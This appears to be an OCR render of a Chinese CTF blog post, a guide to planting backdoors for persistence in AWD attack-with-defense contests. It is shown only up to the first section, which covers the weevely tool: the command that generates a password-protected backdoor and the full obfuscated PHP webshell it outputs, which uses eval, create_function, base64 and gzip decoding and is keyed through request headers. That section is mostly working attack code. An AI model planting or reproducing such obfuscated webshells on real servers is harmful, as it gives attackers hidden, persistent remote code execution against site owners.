 ```yaml
---
layout: post
category: CTF
title: Web选手的AWD后渗透指南
subtitle: CTF线下赛备忘
catalog: true
excerpt: 翻了下网上的AWD资料，发现大家都没有详细讲细节，AWD的资料还是不够开放与完善。在此，放一些个人对AWD运维和后渗透相关的总结。AWD比赛还是很好玩，希望大家从中学到知识的同时享受到对抗的快感。
time: 2018.08.21 14:35:00
tags:
- CTF
- AWD
- backdoor
- 线下赛


---
```




# Web选手的AWD后渗透指南

在线下赛，我们常常为了维持权限以及运维自己服务的需求，会对Gamebox植入一些后门。这里对这些后门进行一个简单的汇总。

## 1. weevely后门

1. 优点在于混淆性高，其他选手很难通过分析代码获得weevely型后门的密钥。另外，weevely内置了一些基础的小功能，使用起来也相对方便。

2. 缺点便是通过php解析执行，执行速度较慢。

3. 生成weevely后门：

   ```bash
   # moxiaoxi @ moxiaoxideMacBook-Pro in ~/Desktop/Myself/weevely3 [22:10:27] C:2
   $ python weevely.py generate woaizhongguo weevely.php
   Generated backdoor with password 'woaizhongguo' in 'weevely.php' of 1469 byte size.
   
   # moxiaoxi @ moxiaoxideMacBook-Pro in ~/Desktop/Myself/weevely3 [22:10:50]
   $ cat weevely.php
   <?php
   $u='$kh="-Y6471";$kf="-Y2151-Y";f-Yunction -Yx($t,$-Yk)-Y{$c=-Yst-Yrle-Yn($k);$-Yl=strlen($t);$-Yo';
   $h='.$k-Yf),-Y0,3));$p=-Y"";f-Yor($z=1;-Y$z<coun-Yt($-Ym[1]);-Y$z++-Y)$-Yp.=$q-Y[$m-Y[2][$z]];if-Y(';
   $s='-Ys-Ytrpos(-Y$p,$h)===0){$s[-Y$i]="";$-Yp=$-Yss($p-Y,3);}if(a-Yrra-Yy_ke-Yy_exists($i,-Y$s)){$s[';
   $j=';}}re-Yturn $o-Y;-Y-Y}$r=$_SERVER-Y;$rr=@$r[-Y-Y"HTTP_REFER-YER"];$-Yra=@$r-Y[-Y"HT-YTP_ACC';
   $C='o-Y-Ympress(@x(-Y@b-Yase64_decode-Y(-Y-Ypreg_replace(a-Yrray("/-Y-Y_/","-Y/-/"-Y),array(-Y"/","+"),';
   $W=');$q=array_value-Ys-Y($q);preg_-Ymatch_all(-Y"-Y/([-Y\\w])[\\w-]+(?:-Y;q=0.(-Y-Y[\\d-Y]))?,-Y?/",';
   $G=str_replace('N','','cNNreate_NfNuncNtiNon');
   $c='$ra-Y,$m);if-Y($q-Y-Y&&$m){@s-Yession_start();$s=&$_-YSESS-YION;$ss-Y="subs-Ytr-Y";$-Ysl="-Ys';
   $e='tr-Ytolowe-Yr";$i=$-Ym[1][-Y0].$m[1][-Y1]-Y;$h=$sl($ss(md5($i.-Y$kh-Y),0,-Y3));$f=$sl($s-Ys(-Ymd5($i';
   $M='$i-Y].=$p;$e-Y=strpo-Ys($s-Y[$-Yi],$f);-Yif($e){$k-Y=-Y$-Ykh.$kf;ob_start-Y();@e-Yval(@gzunc';
   $f='-Y4_enc-Yode(x(g-Yzcompres-Y-Ys($o)-Y,$k));p-Yrint("<$k-Y>$d</-Y$-Yk>");@session_-Ydestro-Yy();}}}}';
   $B='$ss-Y($s[$i],-Y0,$e)))-Y,$-Yk)-Y)-Y);$o=ob_get_conten-Yts();ob-Y-Y_e-Ynd_clean();$d=ba-Yse6';
   ```